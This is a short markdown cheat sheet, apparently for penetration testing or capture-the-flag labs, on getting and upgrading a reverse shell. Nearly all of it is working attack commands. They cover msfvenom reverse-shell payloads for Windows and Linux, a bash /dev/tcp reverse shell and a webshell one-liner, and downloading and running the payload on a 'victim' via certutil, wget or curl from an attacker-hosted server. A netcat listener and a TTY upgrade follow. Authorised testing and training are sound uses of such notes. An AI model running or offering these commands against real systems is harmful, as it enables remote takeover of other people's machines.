 
## Generate shell 
### with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f elf > shell.elf
```
### Simple bash reverse shell
Save it as shell.sh
```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1
```
Oneliner for webshells
```
bash -c "bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1"
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
  ## or
  curl --output shell.elf http://<KALI_IP>:8081/shell.elf

  chmod +x shell.elf
  ./shell.elf

```

## Setup a netcat listener on Kali
```
nc -nlvp 4445
```

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```
